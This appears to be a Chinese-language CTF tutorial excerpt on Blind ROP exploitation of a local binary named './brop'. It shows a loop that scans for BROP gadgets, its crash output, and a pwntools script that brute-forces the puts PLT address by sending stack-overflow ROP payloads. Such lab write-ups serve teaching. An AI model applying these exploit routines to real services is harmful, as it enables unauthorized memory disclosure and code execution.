 ```
def get
while 1:
    print hex(addr)
    if get_brop_gadget(buffer_length, stop_gadget, addr):
        print 'possible brop gadget: 0x%x' % addr
        if check_brop_gadget(buffer_length, addr):
            print 'success brop gadget: 0x%x' % addr
            break
    addr += 1
```

```
[+] Starting local process './brop': pid 120700
[*] Process './brop' stopped with exit code -11 (SIGSEGV) (pid 120700)
success brop gadget: 0x4007ba
```

5、寻找 puts 或 write 函数的 plt，用于 leak 其它地址的值

```
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

## buffer_length = getBufferLength()
buffer_length   = 72
## stop_gadget = getStopAddr(buffer_length)
stop_gadget = 0x4005c0
brop_gadget = 0x4007ba
pop_rdi_ret  = brop_gadget + 9  #解释如下

def GetPutsPlt(buffer_length,stop_gadget,pop_rdi_ret):
	addr = 0x400500
	while 1:
		print(hex(addr))
		try:
			p = process('./brop')
			p.recvuntil('Do you know password?\n')
			payload = 'a'*buffer_length + p64(pop_rdi_ret) + p64(0x400000) + p64(addr) + p64(stop_gadget)
			p.sendline(payload)
			output = p.recv()
			p.close()
			if output.startswith('\x7fELF'):#在没有 PIE 保护的时候，64 位程序的 ELF 文件的 0x400000 处有 7 个非零字节。
				print('puts plt address = 0x%x' % addr)
				return addr
			addr += 1
		except Exception:
			p.close()
			addr += 1

puts_plt_addr = GetPutsPlt(buffer_length,stop_gadget,pop_rdi_ret)

```
